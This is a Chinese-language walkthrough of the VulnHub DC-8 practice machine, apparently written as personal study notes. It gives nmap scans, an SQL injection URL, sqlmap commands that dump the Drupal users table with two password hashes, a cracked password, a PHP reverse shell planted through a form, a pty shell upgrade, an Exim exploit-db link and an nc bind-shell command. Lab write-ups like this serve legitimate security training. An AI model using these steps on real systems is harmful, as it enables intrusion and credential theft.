 # DC8
- [参考](https://blog.csdn.net/qq_42785117/article/details/101602233?depth_1-utm_source=distribute.pc_relevant.none-task&utm_source=distribute.pc_relevant.none-task)

- [学习](https://blog.csdn.net/adminuil/article/details/102613795)

- [下载](https://www.vulnhub.com/entry/dc-8,367/)

## 扫描

```
nmap -sP 192.168.31.0/24
```

![](img/1.png)

```
nmap -sT -sV -T5 -A -p- 192.168.31.23
```

![](img/2.png)


开了80和22，访问80看看：

![](img/3.png)

发现是 Drupal7。

![](img/4.png)

？？？报错了？？？下意识输了个 `'` 再试试看 ：

```
http://192.168.31.23/?nid=1%20or%201=1--+
```

应该是存在注入，那直接拿sqlmap试试看：

![](img/5.png)

存在注入，继续深入看看

```
sqlmap -r '/root/1.txt' --dbs --batch
sqlmap -r '/root/1.txt' -D d7db --tables --batch
sqlmap -r '/root/1.txt' -D d7db -T users --dump --batch
```

![](img/6.png)

获得密码：
```
admin 	$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z
john 	$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```

使用 hashcat 跑密码试试：使用自带的 rockyou.txt

```
john
turtle
```

试了之后是john的密码，admin的密码没有爆出来，登陆一下：

登陆页面：

```
http://192.168.31.23/user
```

![](img/7.png)

可以编辑php代码，试着反弹shell，

![](img/8.png)

这里其实是在用户提交表单时触发php代码，事先要先监听本地端口。

![](img/9.png)

我们试着提交表单，shell 已连接

![](img/10.png)

## 中期

先升级一下shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```
sudo存在漏洞CVE-2019-14287

使了一下，权限要求挺高的 不过不知道密码

![](img/11.png)

看了大佬的wp。用到了CVE-2019-10149，再次注意到SUID。

利用脚本
```
https://www.exploit-db.com/exploits/46996
```

此脚本有两种利用方式，
1 setuid

![](img/12.png)

2 netcat

![](img/13.png)

在靶机上启用 netcat

![](img/14.png)


 kali 上新建一个 bind shell 连接

```
nc -nv 192.168.31.23 31337
```
一直没连上，很痛苦，但是的确是做到这里就结束了。

## 总结

该靶场大致要点为： 
1. sqlmap使用
2. php回弹shell
3. exim4提权

更新笔记：
1. 提权骚操作



